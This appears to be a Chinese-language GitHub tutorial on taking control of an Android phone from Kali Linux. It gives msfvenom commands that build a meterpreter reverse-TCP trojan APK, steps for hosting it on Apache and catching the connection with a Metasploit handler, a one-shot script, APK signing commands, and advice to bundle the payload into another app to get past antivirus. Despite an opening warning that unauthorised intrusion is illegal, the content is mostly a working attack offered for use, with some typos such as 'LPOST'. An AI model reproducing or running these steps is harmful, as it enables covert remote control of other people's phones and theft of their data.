 # 使用Kali入侵安卓手机
# 未经容许的入侵是违法行为！！！请不要随意模仿！！！
步骤：
1. SSH连接上kali<br>
![图像_2021-08-19_182808](https://user-images.githubusercontent.com/71908235/130053586-a06330ed-4068-409d-91dd-afdc25cb422b.png)
2. 生成一个木马apk 命令：msfvenom -p android/meterpreter/reverse_tcp LHOST=这里填kali的IP地址 LPOST=8888 R > app.apk<br>
4. 输入service apache2 start开启服务器服务，再输入sudo cp app.apk /var/www/html将生成的apk文件复制到html文件夹下，然后执行rm /var/www/html/index.html删除掉自带的网页<br>
![图像_2021-08-19_184536](https://user-images.githubusercontent.com/71908235/130055912-8b0e36ef-549f-403a-84f9-ee3ebe2c3271.png)<br>
5. 打开msfconsole（直接粘贴至控制台即可），等待到">"字样出现时继续操作<br>
![图像_2021-08-19_184838](https://user-images.githubusercontent.com/71908235/130056307-6e614687-508a-4182-b686-fe3f4b7e076f.png)
6. 输入use exploit/multi/handler<br>
![图像_2021-08-19_185337](https://user-images.githubusercontent.com/71908235/130056841-85082b3f-a0f4-4bcf-86d5-13a16626c9c9.png)
7. 输入set payload android/meterpreter/reverse_tcp<br>
![图像_2021-08-19_190033](https://user-images.githubusercontent.com/71908235/130057714-9e8f20b2-6fea-4bda-881c-6ef160118e05.png)
8. 输入options，发现HOST和PORT没有设置，设置host和post未创建apk时的IP地址和端口：<br>
![图像_2021-08-19_190220](https://user-images.githubusercontent.com/71908235/130057928-3c2aae58-cf13-4a67-aea4-079be575286d.png)
[![fqVcSH.png](https://z3.ax1x.com/2021/08/19/fqVcSH.png)](https://imgtu.com/i/fqVcSH)
9. 输入exploit开启监听出现Started reverse TCP handler on 时就成功开启了<br>
[![fqVzkT.png](https://z3.ax1x.com/2021/08/19/fqVzkT.png)](https://imgtu.com/i/fqVzkT)
10. 在靶机上访问Kali的IP地址，找到app.apk然后就可以在Kali上控制手机了<br>
<br>
一键脚本：<br>
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.110 LPOST=8888 R > app.apk<br>
service apache2 start<br>
sudo cp app.apk /var/www/html<br>
rm /var/www/html/index.html<br>
msfconsole<br>
use exploit/multi<br>
set payload android/meterpreter/reverse_tcp<br>
set LPORT=8888<br>
set LHOST=192.168.1.110<br>
exploit<br>
<br>
注：<br>
1. 可以使用zipalign对apk进行对齐 zipalign -v 4 text.apk text1.apk<br>
2. 可以生成密钥对 例如 keytool -genkey -v -keystore cg.keystore -alias cg -keyalg RSA -keysize 2048 -validity 10000  模板keytool -genkeypair -keystore 密钥库名 -alias 密钥别名 -validity 天数 -keyalg RSA<br>
3. 可以对apk签名 例如 apksigner sign --ks cg.keystore --ks-key-alias cg text1.apk 模板apksigner sign --ks 密钥库名 --ks-key-alias 密钥别名 text1.apk<br>
4. 可以对apk进行签名验证apksigner verify -v --print-certs text1.apk<br>
还有：直接使用msfvenom生成的裸马，过不了免杀，版本也低，安装不了，捆绑是最简单的，然后做好签名优化就行<br>
